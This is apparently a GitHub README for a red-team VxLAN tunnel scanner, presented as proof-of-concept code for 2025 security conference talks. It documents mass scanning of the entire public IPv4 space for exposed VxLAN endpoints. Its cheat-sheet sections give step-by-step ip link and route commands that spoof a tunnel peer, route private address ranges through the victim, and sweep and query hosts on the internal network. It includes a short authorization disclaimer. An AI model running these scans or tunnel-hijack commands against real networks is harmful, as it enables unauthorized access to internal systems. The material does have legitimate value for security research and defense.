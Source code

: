 # VxLAN Tunnel Scanner
- A scanner that searches for misconfigured VxLAN tunnels around the world and can potentially hijack entire tunnel access to internal networks.
## Reference
- This is a PoC code for Talks: From Spoofing to Tunneling: New Red Team's Networking Techniques for Initial Access and Evasion
    - [Black Hat USA 2025 Briefing](https://www.blackhat.com/us-25/briefings/schedule/#from-spoofing-to-tunneling-new-red-teams-networking-techniques-for-initial-access-and-evasion-44678)
    - [DEF CON 33 Main Stage](https://defcon.org/html/defcon-33/dc-33-speakers.html#content_60316)
    - [HITCON 2025](https://hitcon.org/2025/en-US/agenda/)
## Prepare
- `pip3 install requirement.txt`
## Usage
```
python3 main.py -i <interface> -l <your_public_IP> -d <VxLAN_dst_ip_subnet or ip_list_file>
```
## Example
- for example `1.1.1.1` has VxLAN tunnel you are `3.3.3.3`, and VNI might be 1 to 100
```
python3 main.py -i eth0 -l 3.3.3.3 -d 1.1.1.1 -vni 1:100 -p 4789,8472
CRITICAL - Received reply from Source IP: 1.1.1.1, VNI: 42, VXLAN Port: 8472, VXLAN Source Mac: ee:bb:cc:aa:55:11, VXLAN Source IP: 10.0.0.1
```
- And get how to abuse VxLAN tunnel
```
python3 main.py -l 3.3.3.3 -d 1.1.1.1 -vni 42 -p 8472 -sch -tip 10.0.0.2/24 -tvip 10.0.0.1
########################## output ##########################
#### Create Fake Tunnel ####
IFACE=vxlan-test
MYPUBIP=3.3.3.3
DSTADDR=1.1.1.1
TIP=10.0.0.2/24
TVIP=10.0.0.1
DPORT=8472
VID=42
ip link add $IFACE type vxlan id $VID remote $DSTADDR local $MYPUBIP dstport $DPORT 
ip link set up dev $IFACE
ip addr add $TIP dev $IFACE
## route possible private ip ##
ip r add 10.0.0.0/8 via $TVIP dev $IFACE src $MYPUBIP
ip r add 172.16.0.0/12 via $TVIP dev $IFACE src $MYPUBIP
ip r add 192.168.0.0/16 via $TVIP dev $IFACE src $MYPUBIP

### start scan intranet ###
#### !IMPORTANT! ####
# !! nmap is not available for this kind of attack use fping instead !! #
# fping -g 192.168.0.0/16 2>/dev/null

#### cleanup ####
ip link del $IFACE
```
- default setting about 500 package/sec.

## options
- `-sch`: Show Cheetsheet and exit (Input -i -l -d which you found then get abuse VxLAN tunnel command)
- `-l3`: Layer 3 tunnel interface (Default: False)
- `-vni`: Scan VXLAN VNI range in the form of '1:10', '1', or '1,4' (default 1:200)
- `-p` Scan VXLAN VNI range in the form of '1:10', '1', or '1,4' (default 1:200)
- `-ss`: Save and use status file (the last scan will resume) (Default: False)
  - Recommend "on" in mass scan system sometime kill the script
- `-i <interface>`: Interface to send package
- `-d <ip_or_file>`: A IP subnet or a list of IPs(subnets) to use as VxLAN dst
- `-l <ip>`: A IP on your pubilc interface (the IP on -i interface)
- `-o <file>`: Log file path
- `-t <float>`: Wait how many second after VxLAN packet send (Default: 2)
- `-T <int>`: How many thread send VxLAN packet in same time (Default: 255)
- `-cs <int>`: Send how many ip until start wait for ping to responsed (default: 1000)
- `-dp`: Do private - scan private ip VxLAN (Default: False)
  - Use this if you know the inside intranet address
- `-v <log_level>`: Logging level `['DEBUG', 'INFO', 'WARNING', 'ERROR', 'CRITICAL']` (Default: INFO)
  - VxLAN peer found log is on `CRITICAL`
- `-tip` : tunnel address **inference** from scan result, **contains subnets** (for cheet sheet only)
- `-tvip` : Victim tunnel address from scan result (for cheet sheet only)


## better way to scan full public ip
```
wget https://bgp.tools/table.txt
cat table.txt |grep -v "::"|cut -d " " -f 1 > v4table.txt
pip3 install aggregate6
aggregate6 v4table.txt > aggrv4table.txt
#cat aggrv4table.txt|wc -l   #159652
python3 main.py -i <interface> -l <your_public_IP> -d aggrv4table.txt -ss
```

## Lab
### Scan VxLAN tunnel
```
python3 main.py -i <iface> -l <your_ip> -d 160.25.104.200
CRITICAL - Received reply from Source IP: 160.25.104.200, VNI: 42, VXLAN Port:8472, VXLAN Source Mac: fa:10:04:a1:e1:cf, VXLAN Source IP: 10.0.0.1
```
### Access & Scan intranet
```
python3 main.py -l 9.9.9.9 -d 160.25.104.200 -vni 42 -p 8472 -sch -tip 10.0.0.2/24 -tvip 10.0.0.1
#### Create Fake Tunnel ####
MYPUBIP=9.9.9.9  #change this
DSTADDR=160.25.104.200
DPORT=8472
VID=42
IF_NAME=vxlan-test
ip link add $IF_NAME type vxlan id $VID remote $DSTADDR local $MYPUBIP dstport $DPORT 
ip link set up dev $IF_NAME
ip addr add 10.0.0.2/24 dev $IF_NAME
### You need to ping to the same subnet to trigger an ARP request, which lets the server know you are here ###
ping -c 1 10.0.0.1
ip r add 192.168.122.0/24 via 10.0.0.1

### start scan intranet ###
# nmap 192.168.122.0/24
ping -c 1 192.168.122.20

## test curl to web ##
curl 192.168.122.20
# YOU KNOW VxLAN!

#### cleanup ####
ip link del $IF_NAME
```

## Disclaimer
This project is intended for educational and research purposes only. Any actions and/or activities related to this code are solely your responsibility. The authors and contributors are not responsible for any misuse or damage caused by this project. Please ensure that you have proper authorization before testing, using, or deploying any part of this code in any environment. Unauthorized use of this code may violate local, state, and federal laws.

## License
This project is licensed under the terms of the MIT license.
